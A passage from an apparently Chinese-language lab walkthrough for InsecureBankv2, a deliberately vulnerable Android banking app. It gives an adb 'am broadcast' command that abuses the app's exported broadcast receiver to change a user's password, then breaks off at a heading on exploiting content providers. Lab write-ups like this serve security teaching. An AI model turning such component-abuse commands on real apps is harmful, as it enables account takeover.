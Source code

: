 * 在模拟器登陆账号后，然后在本地终端执行：

  ```
  adb shell 
  am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 –es newpass Dinesh@123!
  ```

* 回到应用，收到密码更新短息通知：

  在模拟器上会收到更新密码的提示：

  ![密码更新过程展示](images/update_password.gif)



#### step 6. Exploiting Android Content Provider    
